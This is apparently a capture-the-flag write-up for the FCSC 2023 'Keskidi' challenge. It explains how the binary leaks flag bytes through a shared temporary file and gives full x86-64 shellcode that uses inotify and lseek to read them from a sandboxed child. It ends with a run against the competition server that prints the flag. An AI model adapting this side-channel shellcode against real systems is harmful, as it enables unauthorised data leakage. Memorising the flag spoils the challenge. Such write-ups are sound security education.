 # FCSC 2023 : Keskidi writeup

## Brief Summary
Essentially, we have an executable which calls `fork()`, the child process is unprivileged and runs some user provided shellcode, while the parent process does some operations on a temporary file (accesible from both processes via  a file descriptor) based on the content of the flag.

*Note: For convenience I added symbols using objcopy into a new binary `keskidi_s` , and I refer to them in this WU for clarity*

## Before forking

- The program creates a temporary file, saves its fd `tmp_fd` in the `.bss` at `tmp_fd`
- It then generates 4096 bytes that are then copied into the temporary file, and into the `.bss` at `tmp_buff`.

*Note: because there are only 255 non-null possibles chars, and we generate 4096 bytes, given a flag character, it is extremely unlikely that the buffer and temporary file do not contain it at least once.*

## After forking 
### What is the parent process doing ?

First, the parent opens `flag.txt`, copies its content to a local buffer `flag_buf`
Then it follows this procedure (decompilation from ghidra + variables renamed)

```C
  len_flag = strlen(flag_buf);
  for (i = 0; i < (int)len_flag; i = i + 1) {
    head = &tmp_buff;
    do {
      head = (undefined *)memchr(head,(int)flag_buf[i],0x1000 - (long)(head + -0x4060));
      if (head != (undefined *)0x0) {
        lseek(tmp_fd,(__off_t)(head + -0x4060),0);
        write(tmp_fd,&zero,1);
        syncfs(tmp_fd);
        head = head + 1;
      }
    } while (head != (undefined *)0x0);
  }
  flag_fd = close(tmp_fd);
```

Relevant things to note :
- each time a character is written, `syncfs()` is called, which ensures the write is propagated to the file system
- at each write, the position indicator of the tmp file is set by to some value, say `j-1`, by the `lseek` call, then to `j` by the call to `write()`
- We have that `flag[i]==tmp_buff[j-1]`

### What is the child doing ?

It's quite straightforward, a user provided shellcode of length at most 256 bytes is ran into a freshly mmaped region in memory of size 256 bytes. At shellcode execution, this region is not writable.

## The Idea
Everytime a call to `syncfs` is used in the parent we output the corresponding flag character in the child, by peeking into `tmp_buffer`, using the head of the position indicator file, which we can get using an `lseek(tmp_fd,0,SEEK_CUR)` syscall. 

By looking into gdb, I found that tmp_fd is reliably equals to 4, and saw that `SEEK_CUR` = 2 by compiling an appropriate C code that prints it.

The `inotify` API is exactly what we are looking for to peek on writes on a file. It is a familiy of syscalls which allow monitoring.

Calling `inotify_init()` will return a special file descriptor, say `ifd`, that will blocking on read (stop execution) until an event happens.

Then, calling `inotify_add_watch(ifd,'proc/self/fd/4'),IN_MODIFY)` will make it so that modifications events (IN_MODIFY) on the temporary file (accessible via `'proc/self/fd/4'` filename) will be registered in ifd

Reading from `ifd` will block until a new event has been registered.

So the idea is to have a loop in the child, in which at each iteration we do the following :
- wait for a write event (ie, read from `ifd`)
- retrieve the position indicator `j` of tmp_fd via `lseek`, 
- write `tmp_buff[j-1]` to `stdout`

Easy right ? Except that if a character is found multiple times in the `tmp_buffer`, there will be multiple writes for this character into the tmp file.

To circumvent this issue, we make the assumption (which luckily turned out to be right :P) that no two consecutive flag characters are equal, and only print the character to stdout if it is different from the previous.

## Exploit

Here is the bulk of the exploit.
I had to run it a number of times because sometimes some characters are missed

```python
ret_addr_off = 0x13c0
tmp_buff_off = 0x4060
tmp_buff_fd = 0x4040
tmp_fd = 4
tmp_name = b'/proc/self/fd/4\x00'
sc = b''

sc += asm(
        f"""
        pop r8
        add r8, {tmp_buff_off - ret_addr_off}
        
        xor rax, rax
        add al, 253
        syscall

        mov rdi, rax
        mov r10, {int.from_bytes(tmp_name[8:],'little')}
        push r10
        mov r10, {int.from_bytes(tmp_name[:8],'little')}
        push r10
        mov rsi, rsp
        mov rdx, 2
        xor rax, rax
        add al, 254
        syscall
        mov rcx, rax

        mov rbx, rdi
        xor r9, r9
        peek:
            mov rdi, rbx
            mov rdx, 16
            xor rax, rax
            syscall

            mov rdi, 4
            xor rsi, rsi
            mov rdx, 1
            xor rax, rax
            add al, 8
            syscall

            mov rax, QWORD PTR [rax - 1 +r8]
            push rax
            shl rax,56
            cmp rax,r9
            je peek

            mov r9, rax
            
            mov rdi, 1
            mov rsi, rsp
            mov rdx, 1
            xor rax, rax
            add al, 1
            syscall

            cmp r8, r8
            je peek
        """
        )
        
io = start()
io.send(sc + b"\n")
io.interactive()
```

## FLAG
```
[*] '/home/skuuk/fcsc23/keskidi/keskidi_s'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenges.france-cybersecurity-challenge.fr on port 2103: Done
[*] Switching to interactive mode
FCSC{5cda7f51ba4724231c8eb5a29c970423b73a7d462e3075ed39ec3ab5d3fbc4e8}[*] Got EOF while reading in interactive
$ 
```



